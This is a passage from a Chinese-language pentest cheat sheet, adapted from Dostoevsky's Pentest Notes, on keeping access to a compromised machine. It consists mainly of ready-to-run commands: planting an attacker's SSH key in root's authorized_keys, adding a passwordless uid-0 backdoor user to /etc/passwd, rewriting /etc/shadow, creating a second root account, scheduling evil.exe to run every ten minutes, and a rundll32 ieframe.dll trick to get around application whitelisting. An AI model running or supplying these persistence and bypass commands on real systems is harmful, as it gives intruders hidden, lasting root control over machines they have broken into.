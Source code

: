 #### 创建SSH授权密钥

```text
mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
```

#### 创建没有密码的后门用户

```text
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd

# 很少需要，但是如果您需要通过使用useradd和passwd向先前创建的用户添加密码，则不工作。Pwd是“kali
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2
```

#### 创建另一个root用户

```text
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

#### 生成OpenSSL密码

```text
openssl passwd -1 password 
# output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.
```

#### 持续的后门

```text
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

### 代码执行/应用程序白名单绕过

#### Ieframe.dll

{% tabs %} {% tab title="cmd" %}

```text
rundll32 c:\windows\system32\ieframe.dll,OpenURL c:\temp\test.url
```

{% endtab %}

{% tab title="test.url" %}

```text
[internetshortcut]
url=c:\windows\system32\calc.exe
```

{% endtab %} {% endtabs %}

This was inspired by and forked/adapted/updated from [Dostoevsky's Pentest Notes](https://github.com/dostoevskylabs/dostoevsky-pentest-notes).  


